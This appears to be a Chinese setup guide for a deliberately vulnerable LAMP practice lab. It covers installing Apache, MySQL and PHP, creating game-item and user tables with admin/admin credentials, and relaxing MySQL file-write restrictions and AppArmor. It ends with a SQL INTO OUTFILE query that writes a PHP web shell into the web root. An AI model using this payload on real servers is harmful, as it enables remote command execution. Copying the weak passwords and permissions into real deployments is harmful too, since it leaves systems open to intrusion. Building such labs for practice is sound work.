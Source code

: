 # sql

## 安裝Apache

執行：

$ sudo apt install apache2

檢查Apache是否正常運行：

$ sudo systemctl status apache2


## 安裝MySQL
執行

/opt/lampp/bin/mysql -u root

設定MySQL root user的密碼：

sudo mysql_secure_installation

改 root 密碼

$ /opt/lampp/bin/mysql -u root

> ALTER USER 'root'@'localhost' IDENTIFIED WITH mysql_native_password BY 'rootroot';

> SET PASSWORD FOR 'root'@'localhost' = PASSWORD('rootroot');


### 建db


```
create database  user_db;
use user_db;
```

* 創table item
```
CREATE TABLE `item` (
  `id` int NOT NULL AUTO_INCREMENT,
  `name` varchar(100) NOT NULL,
  `attack` int NOT NULL,
  `defense` int NOT NULL,
  PRIMARY KEY (`id`)
)
```
* item 資料
```
INSERT INTO `item`(`id`, `name`, `attack`, `defense`) VALUES (1,'小李飛刀',100,323),
(2,'屠龍刀',200,40),
(3,'桃園盾',20,500),
(4,'倚天劍',100,100),
(5,'晨星虎斧',318,407),
(6,'封魔流星破',247,50),
(7,'霸虎風魔斬',469,54),
(8,'修羅鬼噬爪',464,415),
(9,'鬼噬日暮滅',327,401),
(10,'洪流鳳火舞',378,485),
(100,'彥宇大悲咒',2000,0);
```

* 創table user_table

```
CREATE TABLE `user_table` (
  `user_id` int NOT NULL AUTO_INCREMENT,
  `user_name` varchar(40) NOT NULL,
  `user_password` varchar(40) NOT NULL,
  `user_note` varchar(40) NOT NULL,
  PRIMARY KEY (`user_id`)
)
```

* user_table 資料
```

INSERT INTO `user_table`(`user_id`, `user_name`, `user_password`, `user_note`) VALUES(1,'admin','admin','root')
```

## php

```
sudo apt install php libapache2-mod-php php-mysql
```

## 下載 html.zip

放到 /var/www/html

利用  nautilus 改

sql 資料夾 
Owner: www-data   C&D
Group: www-data   C&D
other:            C&D

upfiles 資料夾 
Owner: mysql   C&D
Group: mysql   C&D
other:         C&D

修改outfile問題

SHOW GLOBAL VARIABLES LIKE '%secure%';
sudo find /* -name my.cnf
secure-file-priv = "/"


sudo nano /etc/apparmor.d/local/usr.sbin.mysqld 

/var/www/html/upfiles/ r,
/var/www/html/upfiles/** rw,

sudo apparmor_parser -r /etc/apparmor.d/usr.sbin.mysqld 

mysql -u username -p dbname < dbexport.sql

測試outfile
select 1,2,3,"<?php echo shell_exec($_GET['cmd']) ?>"  from item into outfile "/var/www/html/upfiles/shell.php";
